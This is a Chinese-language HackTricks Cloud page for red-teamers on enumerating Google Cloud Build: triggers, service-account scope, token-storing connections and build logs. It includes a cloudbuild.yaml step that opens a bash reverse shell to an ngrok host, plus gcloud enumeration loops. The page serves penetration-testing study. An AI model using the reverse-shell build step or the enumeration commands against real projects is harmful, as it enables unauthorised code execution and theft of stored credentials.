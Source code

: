 # GCP - Cloud Build 枚举

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持广泛的编程语言。它**允许开发人员自动构建、测试和部署代码**，同时提供自定义构建步骤和工作流程的灵活性。

每个Cloud Build触发器都**与Cloud仓库相关联或直接与外部仓库连接**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有发现任何方法可以从这里或Cloud仓库窃取Github/Bitbucket令牌，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，客户端不会访问Github。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

* **推送到分支**：指定分支
* **推送新标签**：指定标签
* **拉取请求**：指定接收PR的分支
* **手动调用**
* **Pub/Sub消息**：指定主题
* **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行认证

### 执行

有3个选项：

* 一个yaml/json **指定要执行的命令**。通常是：`/cloudbuild.yaml`
* 只有一个可以在网络控制台和命令行界面中“内联”指定
* 最常见的选项
* 对于未经认证的访问很重要
* 一个**Dockerfile**来构建
* 一个**Buildpack**来构建

### SA权限

**服务帐户具有`cloud-platform`范围**，因此可以**使用所有权限**。如果**没有指定SA**（如在提交时），将**使用默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不赋予任何权限，但赋予权限相当容易：

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 审批

可以配置Cloud Build以**要求对构建执行进行审批**（默认禁用）。

### 连接和仓库

连接可以通过以下方式创建：

* **GitHub**：它将显示一个OAuth提示，要求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**内。
* **GitHub Enterprise**：它将要求安装一个**GithubApp**。将在您的GitHub Enterprise主机上创建一个**认证令牌**，并将其作为**Secret Manager**的秘密存储在此项目中。
* **GitLab / Enterprise**：您需要提供**API访问令牌和读取API访问令牌**，这些将存储在**Secret Manager**中。

一旦生成连接，您可以使用它来**链接Github帐户有权访问的仓库**。

此选项可通过以下按钮获得：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，使用此方法连接的仓库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接仓库

这与**`connection`**不同。这允许**不同**的方式获取**访问Github或Bitbucket**仓库的权限，但**不会生成连接对象，但它确实会生成一个仓库对象（第一代）。**

此选项可通过以下按钮获得：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新的存储来存储触发器的文件**。例如，在GCP提供的示例中就会发生这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
存储桶名为[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)被创建用来存储将要使用的`.tgz`文件。

### 获取shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可能会在构建配置和日志中发现**敏感信息**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 权限提升

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经认证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 后期利用

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
